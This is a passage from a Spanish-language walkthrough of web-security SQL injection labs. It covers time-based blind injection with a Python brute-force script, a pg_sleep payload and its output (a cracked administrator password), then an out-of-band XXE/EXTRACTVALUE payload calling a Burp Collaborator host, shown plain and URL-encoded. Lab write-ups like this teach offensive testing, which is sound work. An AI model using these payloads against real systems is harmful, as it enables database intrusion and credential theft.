 ```python
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

Unicamente tenemos que cambiar la mecanica de la comparacion que hace `r.status_code == 500` por `time_end - time_start > 1.5` a parte de que añadimos `time_start = time.time() y time_end = time.time()`y ya todo lo demas a lo que se nos ajuste a nuestro `request`...

```shell
python3 SQLI_Blind.py
```

Info:

```
[/] Fuerza bruta: fdDQYd0euaN829vd'||(select case when substring(password,20,1)='l' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -
[ ] Password: 5xskvx9lqcuwtq1rakul
```

Con esto ya tendriamos la contraseña, por lo que nos logeamos y estaria listo...

### Lab: Blind SQL injection with out-of-band interaction

Aqui no va a servir nada de lo anterior ya que se tiene que hacer de una manera especifica, utilizando BurpSuit e interactuando con los servidores `DNS` y hacer un `DNS Lookup`...

En este caso tienes que tener BurpSuit comprado para hacer la parctica ya que tendriamos que obtener el codigo del `BurpSuit Colaboration Client` para poder ponerlo en el siguiente codigo, pero si se tuviera se inyectaria de la siguiente manera...

```mysql
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<CODIGO_BURPSUIT_COLABORATION>/"> %remote;]>'),'/l') FROM dual)-- -
```

Y todo esto se tendria que URL Encodear para que funcione presionando `^U` en BurpSuit...

Quedaria algo tal que asi encodeado en URL...

```
'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//<CODIGO_BURPSUIT_COLABORATION>/">+%25remote%3b]>'),'/l')+FROM+dual)--+-
```

### Lab: Blind SQL injection with out-of-band data exfiltration

En este caso es lo mismo que antes pero en modo `exfiltration`, lo hariamos de la siguiente manera...

